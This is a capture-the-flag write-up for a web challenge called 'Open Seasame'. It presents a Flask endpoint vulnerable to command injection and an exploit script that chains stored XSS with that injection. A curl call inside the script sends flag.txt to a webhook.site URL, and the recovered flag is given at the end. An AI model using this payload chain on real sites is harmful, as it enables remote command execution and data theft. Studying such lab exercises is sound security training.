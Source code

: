 # Open Seasame
## Description
> Does the CLI listen to magic?
>
> http://chal.competitivecyber.club:13336

![image](https://github.com/user-attachments/assets/ccae2797-f1eb-4084-9b61-34287594a33d)

`/api/cal` (GET):

```py
@app.route('/api/cal', methods=['GET'])
def get_cal():
    cookie = request.cookies.get('secret')

    if cookie == None:
        return '{"error": "Unauthorized"}'
    
    if cookie != SECRET:
        return '{"error": "Unauthorized"}'
    
    modifier = request.args.get('modifier','')
    
    return '{"cal": "'+subprocess.getoutput("cal "+modifier)+'"}'
```

- Returns the output of the cal (calendar) command.
- The endpoint is protected by a cookie called secret, which must match the contents of a secret.txt file.
- Accepts an optional modifier parameter, which is passed to the cal command.

Command Injection in `/api/cal`:

The modifier parameter is directly concatenated into a shell command using subprocess.getoutput("cal "+modifier), which is a command injection vulnerability. An attacker could pass malicious input (e.g., ; ls) as the modifier and execute arbitrary commands on the server.

![image](https://github.com/user-attachments/assets/5b84b7b0-b7a7-4262-a515-e7b623251853)

```py
import requests

payload = "<script>fetch('/api/cal?modifier=;curl https://webhook.site/ddae354f-39cf-4205-a327-1f1599aae8b0?$(cat flag.txt)')</script>"
URL = "http://chal.competitivecyber.club:13337"

resp = requests.request("POST", URL + "/api/stats", json={"username": payload, "high_score": 0})
uuid = resp.json()['id']

print("api/stats/" + uuid)
# api/stats/1f82e979-ba80-4a00-b555-53f9fa9abbf4
```
This line prints the URL where the injected stats (containing your payload) can be accessed. When this URL is visited by someone (e.g., an admin), the XSS payload will be executed.


Payload containing the attack (XSS):

```python
payload = "<script>fetch('/api/cal?modifier=;curl https://webhook.site/ddae354f-39cf-4205-a327-1f1599aae8b0?$(cat flag.txt)')</script>"
```
This payload injects a <script> tag into the application. It performs an HTTP request using JavaScript's fetch() function to a URL /api/cal on the target server. In the modifier parameter, a command injection attempt is made:

curl https://webhook.site/...?$(cat flag.txt): The attempt here is to execute a command (cat flag.txt) to read the contents of a file (flag.txt), then send the contents to the webhook.site URL. The webhook.site link is a public service for receiving HTTP requests.
If successful, the fetch() function would retrieve the result of the command and send it to webhook.site, where you could view it.

Sending the payload:

```python
resp = requests.request("POST", URL + "/api/stats", json={"username": payload, "high_score": 0})
uuid = resp.json()['id']
```
This sends the XSS payload in the username field of a POST request to the /api/stats endpoint. This is attempting to inject the payload into the server. The server will store the payload, and when a user or admin visits a page that reflects the stored username, the payload will execute.

The response (resp.json()['id']) contains the unique identifier (UUID) for the stats entry you just created. This UUID is needed to view the entry.
![image](https://github.com/user-attachments/assets/d4ff86db-ff43-4c1c-a562-bd629791f34f)

This script aims to exploit a command injection vulnerability combined with stored XSS. By injecting a script that runs server-side commands, the attacker attempts to read sensitive information (like the contents of flag.txt) and exfiltrate it via a curl request to webhook.site.

Stored XSS: The payload is stored on the server in the username field. Whenever the page reflecting this field is visited, the script runs.
Command Injection: In the fetch() call, the payload is trying to inject the cat flag.txt command and send the result to the attacker's server using curl.

## Flag
```
CACI1_l0v3_c0mm4nd_1nj3ct10n
```

